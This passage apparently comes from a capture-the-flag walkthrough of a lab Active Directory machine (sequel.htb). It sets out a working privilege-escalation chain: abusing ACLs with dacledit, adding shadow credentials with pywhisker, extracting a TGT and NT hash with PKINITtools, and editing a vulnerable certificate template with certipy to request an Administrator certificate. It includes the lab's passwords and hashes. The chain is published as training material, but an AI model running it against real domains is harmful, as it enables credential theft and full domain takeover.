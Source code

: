 Grant `ryan` full control over `ca_svc`:  
```bash
python3 dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'
```

Enroll certificate for `ca_svc`:  
```bash
python3 pywhisker.py -d "sequel.htb" -u "ryan" -p "WqSZAF6CysDQbGb3" --target "ca_svc" --action "add"
```

**Output:**  
- **Key:** vfPE5BZG.pfx  
- **Password:** nODWEZzArQr6E3i5wbpl

Obtain TGT and NT hash:  
```bash
python3 PKINITtools/gettgtpkinit.py sequel.htb/ca_svc -cert-pfx vfPE5BZG.pfx -pfx-pass nODWEZzArQr6E3i5wbpl -dc-ip 10.10.11.51 escapetwo
```

**TGT:** 5d900ae62fe0eb483b9890d0902355618053e5325b9bf38752c2580d67dffbfb

Extract NT hash:  
```bash
python3 PKINITtools/getnthash.py sequel.htb/ca_svc -key 5d900ae62fe0eb483b9890d0902355618053e5325b9bf38752c2580d67dffbfb -dc-ip 10.10.11.51
```

**NT Hash:** 3b181b914e7a9d5508ea1e20bc2b7fce

## 8. Domain Admin Access

Discover certificate templates:  
```bash
certipy-ad find -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip 10.10.11.51 -debug
```

Modify vulnerable template:  
```bash
certipy-ad template -template DunderMifflinAuthentication -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip 10.10.11.51 -debug -save-old
```

Confirm template vulnerabilities:  
```bash
certipy-ad find -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -vulnerable
```

Apply template to CA server:  
```bash
certipy-ad template -dc-ip 10.10.11.51 -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -template DunderMifflinAuthentication -target DC01.sequel.htb -save-old
```

Request certificate as Administrator:  
```bash
certipy-ad req -ca sequel-DC01-CA -dc-ip 10.10.11.51 -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -template DunderMifflinAuthentication -target dc01.sequel.htb -upn administrator@sequel.htb -dns dc01.sequel.htb -debug
```
